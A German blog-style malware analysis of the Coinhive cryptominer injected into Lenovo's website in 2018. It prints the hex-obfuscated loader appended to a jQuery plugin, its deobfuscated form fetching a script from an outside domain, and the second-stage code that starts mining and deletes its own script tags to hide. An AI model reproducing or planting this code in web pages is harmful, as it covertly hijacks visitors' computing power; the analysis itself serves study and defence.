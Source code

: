 ```yaml
---
title: Analyse - Lenovo-Cryptominer
author: Simon Biewald
description: Analyse des JS-Teils des Cryptominers der auch auf die Lenovo-Webseite eingeschleust wurde.
subject: Lenovo, Cryptominer, Coinhive, Malware
date: 2018-05-09T13:55
image: lenovo.png
---
```


# Analyse: Lenovo-Cryptominer

<figure>
    <img src="lenovo.png" alt="Beschrifteter Screenshot eines Injezierten Schadcodes in eine jQuery-Bibliothek">
    <figcaption>Injezierter Schadcode in eine jQuery-Bibliothek</figcaption>
</figure>

Vor einigen Tagen kam es in die Schlagzeilen: Durch ausgelassene Updates des Drupal-Shopsystems [fing sich die Lenovo-Webseite, und andere, einen Cryptominer ein][0].
Wie funktioniert der eingeschleuste Trojaner?

Der Trojaner lädt in mehreren Stufen Skripte nach.

## Stufe 1

Injeziert wurde ein "Loader" in ein jQuery-Plugin, [jQuery Once][1], indem der folgender Schadcode an die `jquery.once.js` angehängt wurde:

<pre class="language-js line-numbers">
<code>var RqLm1=window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x67\x65\x74\x45\x6c\x65\x6d\x65\x6e\x74\x73\x42\x79\x54\x61\x67\x4e\x61\x6d\x65"]('\x68\x65\x61\x64')[0];var D2=window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x63\x72\x65\x61\x74\x65\x45\x6c\x65\x6d\x65\x6e\x74"]('\x73\x63\x72\x69\x70\x74');D2["\x74\x79\x70\x65"]='\x74\x65\x78\x74\x2f\x6a\x61\x76\x61\x73\x63\x72\x69\x70\x74';D2["\x69\x64"]='\x6d\x5f\x67\x5f\x61';D2["\x73\x72\x63"]='\x68\x74\x74\x70\x3a\x2f\x2f\x76\x75\x75\x77\x64\x2e\x63\x6f\x6d\x2f\x74\x2e\x6a\x73';RqLm1["\x61\x70\x70\x65\x6e\x64\x43\x68\x69\x6c\x64"](D2);</code></pre>

Der Schadcode scheint unleserlich, jedoch sind nur alle Strings wie in C hexadezimal mit \x kodiert.
Nach dem Durchlauf eines Deobfuskator ergibt sich folgendes:

<pre class="language-js line-numbers">
<code>var RqLm1 = window["document"]["getElementsByTagName"]("head")[0];
var D2 = window["document"]["createElement"]("script");
D2["type"] = "text/javascript";
D2["id"] = "m_g_a";
D2["src"] = "http://vuuwd.com/t.js";
RqLm1["appendChild"](D2);</code></pre>

Dabei wird zu dem `head`-Element der Webseite ein `script`-Element hinzugefügt,
welches von der URL `http://vuuwd.com/t.js` weiteres JavaScript nachlädt.

Das nachgeladene JavaScript ist zwar nun offline, 
kann aber mit Hilfe [der WaybackMachine nachgeschlagen werden][2] .

## Stufe 2

<pre class="language-js line-numbers">
<code>function loadScript(url, callback) {
    var script = document.createElement("script");
    script.type = "text/javascript";
    script.id = "m_g_a_j_s_";
    if (script.readyState) {
        script.onreadystatechange = function () {
            if (script.readyState == "loaded" || script.readyState == "complete") {
                script.onreadystatechange = null;
                callback();
            }
        };
    } else { // others
        script.onload = function () {
            callback();
        };
    }
    script.src = url;
    document.body.appendChild(script);
}
loadScript("https://coinhive.com/lib/coinhive.min.js", function () {
	var miner = new CoinHive.Anonymous('KNqo4Celu2Z8VWMM0zfRmeJHIl75wMx6', {throttle: 0.2});
	miner.start();
	var s = document.getElementById('m_g_a');
	var p = s.parentElement;
	p.removeChild(s);
	var s1 = document.getElementById('m_g_a_j_s_');
	var p1 = s1.parentElement;
	p1.removeChild(s1);
});</code></pre>

Zuerst wird die Funktion `loadScript` definiert, mit weiteres JavaScript mit
der oben genannte Methode nachgeladen wird, zusätzlich wird dazu ein Callback
ausgeführt, wenn die Resource geladen wurde.

Im Weiteren wird ein Miningscript von [Coinhive][3] nachgeladen und eingerichtet.
Interessanterweise wird die maximal zu benutzende Rechenleistung auf 20%
eingestellt, vermutlich um nicht entdeckt zu werden.
Anschließent werden die zuvor erstellen `script`-Elemente aus dem DOM entfernt.

## Fazit

Besonders der letzte Teil lässt darauf schließen, dass der Malware-Autor **vermeiden wollte
entdeckt zu werden** - im DOM-Baum währen
`script`-Elemente nicht mehr zu finden und durch die reduzierte Rechenleistung
würden auch Besucher der infizierten Webseite keinen Verdacht schöpfen.

 [0]: https://heise.de/-4044683
 [1]: https://github.com/RobLoach/jquery-once
 [2]: https://web.archive.org/web/20180506052843/http://vuuwd.com/t.js
 [3]: https://coinhive.com
